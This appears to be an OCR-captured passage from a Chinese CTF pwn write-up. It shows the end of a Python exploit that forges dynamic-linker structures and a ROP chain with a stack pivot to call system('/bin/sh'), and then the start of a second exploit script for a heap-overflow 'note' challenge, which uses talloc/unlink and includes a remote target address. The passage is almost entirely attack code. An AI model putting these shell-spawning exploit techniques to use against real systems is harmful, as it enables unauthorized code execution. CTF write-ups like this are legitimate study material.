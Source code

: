 ```
        write_16byte(io, 0x601058+i, fake_relro[i:i+8]+'x00'*8)
    for i in range(0, len(fake_sym), 8):
        write_16byte(io, 0x601078+i, fake_sym[i:i+8]+'x00'*8)
 
    write_16byte(io, 0x601098, 'system'.ljust(16, 'x00'))
    write_16byte(io, 0x601a50, '/bin/sh'.ljust(16, 'x00'))
 
    plt0 = 0x400420
 
    rop = l64(pop_rdi_ret) + l64(0x601a50)
    index = 0x155dc
    rop += l64(plt0) + l64(index)
 
    for i in range(0, len(rop), 8):
        write_16byte(io, 0x601980+i, rop[i:i+8]+'x00'*8)
 
    stack_povit = 'a'*0x10 + l64(0x601980-0x8) + l64(leave_ret)
    io.write(stack_povit)
 
    interact(io)
 
exp(target)
```

**<br>**

**Pwn-note**

漏洞存在于edit中，有堆溢出。

此题采用talloc，不过talloc_free内部会调用free函数，所以采用unlink方法进行利用。

脚本：

```
from threading import Thread
from zio import *
 
target = ('119.254.101.197', 10000)
target = './note'
 
 
def interact(io):
    def run_recv():
        while True:
            try:
                output = io.read_until_timeout(timeout=1)
            except:
                return
 
    t1 = Thread(target=run_recv)
    t1.start()
    while True:
        d = raw_input()
        if d != '':
            io.writeline(d)
 
def add(io, title, size, content):
    io.read_until('&gt;&gt;')
    io.writeline('1')
    io.read_until(':')
    io.writeline(title)
    io.read_until(':')
    io.writeline(str(size))
    io.read_until(':')
    io.writeline(content)
```